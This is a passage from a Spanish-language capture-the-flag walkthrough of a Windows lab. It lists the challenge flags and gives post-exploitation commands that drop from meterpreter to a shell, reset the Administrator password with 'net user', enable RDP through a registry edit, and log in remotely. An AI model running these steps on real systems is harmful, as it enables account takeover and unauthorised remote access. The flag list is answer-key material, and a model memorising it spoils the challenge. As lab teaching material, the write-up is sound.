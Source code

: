 ```json
	"eescalera_flag.txt": "FLAG{Mas_uno_por_revisar_sistema}",
	"jenriques_flag.txt": "FLAG{Buen_Password_Spraying_Eh?}",
	"pcasimiro_flag.txt": "FLAG{Pesadilla_en_el_trabajo}",
	"sguerrero_flag.txt": "FLAG{Ay_Ay_Vigila_Tu_Puesto}",
	"svc-spooler_flag.txt": "FLAG{A_su_servicio}",
```

---
## flag{New_Administrator}
Una vez en el meterpreter, ingresamos el siguiente comando para acceder a una shell de windows.
```bash
shell
```
Cambiamos la contraseña de administrador de la siguiente manera.
```shell
net user Administrator pw3edB4by
```

---
## flag{Otra_Entrada}
Con el siguiente comando activamos RDP.
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
 Abrimos una conexión RDP con la IP de la maquina, ingresamos las credenciales:
```json
User: "Administrator",
Password: "pw3edB4by"
```

![PNG](/images/Pasted%20image%2020221031093024.png)

Y entramos a la maquina por RDP.

![PNG](/images/Pasted%20image%2020221031093145.png)

---
## FLAG{El_Buen_OSINT_Naito}
Examinando los directorios nos encontramos con este correo.

![PNG](/images/Pasted%20image%2020221031093432.png)

Seguimos en enlace y obtenemos la flag.

![PNG](/images/Pasted%20image%2020221031093539.png)

---
## FLAG{Sticky_Notes_FTW}
Usando la pista que jenriques cuenta con la flag, y el reto se llama StickyNotes.
Buscando en google damos con la ruta donde se encuentran almacenadas las notas.
